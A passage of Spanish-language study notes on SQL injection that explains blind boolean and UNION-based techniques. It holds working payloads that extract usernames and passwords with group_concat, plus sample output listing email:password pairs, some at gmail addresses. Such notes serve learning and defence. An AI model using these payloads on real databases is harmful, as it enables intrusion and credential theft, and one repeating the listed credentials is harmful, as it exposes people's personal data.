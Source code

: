 Con esta QUERY maliciosa `(select ascii(substr(group_concat(name,0x3a,password),1,1))=97)` muy similar a la condición de tiempo, estamos abusando de que el usuario 1241 no existe para corroborar si la segunda query es TRUE y asi saber los valores, en este caso seleccionamos el conjunto de datos del nombre y la contraseña para fijarnos si el primer caracter en codigo ascii es un valor '97' en codigo ascii, equivalente a una 'a', de esta manera si el primer usuario fuera admin, la primera letra del mismo seria una a, en codigo ascii 97 y la query quedaria 97=97, por lo que seria true y devolveria un 200 OK.

-----

- # Inyección SQL basada en uniones:
Este tipo de **SQLI** utiliza la cláusila "**UNION**" para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula "**UNION**" con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios. 

Es importante tener en cuenta que para esta **SQLI** funcione, hace falta saber las columnas que esta siendo seleccionadas para asi poder unir datos, esto se da por entendido en ya que se toca en [[SQL]]. 

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK ASI COMO TAMBIEN ALGUN DATO EN PANTALLA DEL USUARIO 
SELECT username, password FROM users WHERE user_id=1 
-- Ahora jugamos con order by para averiguar cuantas columnas se estan trayendo
SELECT username FROM users WHERE user_id=1241 order by 2
-- Una vez tengamos el número exacto de columnas podriamos insertar valores que nos interezaran para ver si alguno de los campos es vulnerable y se muestra en pantalla

-- Por ejemplo, desde mysql interactivo si traemos los datos con la primera query veriamos: 
--+---------+-------------------------------+
--| name    | password                      |
--+---------+-------------------------------+
--| Dobliuw | U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI |
--+---------+-------------------------------+

-- Luego ejecutariamos la query maliciosa:
SELECT usrename, password FROM users WHERE user_id=1 union select group_concat(email,0x3a,password),null from users; 
-- Puediendo ver algo similar a esto: 
-------------------------------------------------------------------------------+-------------------------------+
--| name                                                                                                                                                                                                                                                                      --| password                      |
--+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+
--| Dobliuw                                                                                                                                                                                                                                                                   --| U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI |
--| dobliuw@dobliuw.com:U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI,zaikoarg@zaikoarg.com:Z41k0+!1&dDxD_,valenmachu@gmail.com:1254821158644468,brian@gmail.com:Tomi2008,jose32@gmail.com:jose32,robertoperez@gmail.com:roberto1980,david@gmail.com:mihijoelmejor,testing@gmail.com:test!123 | NULL                          |
```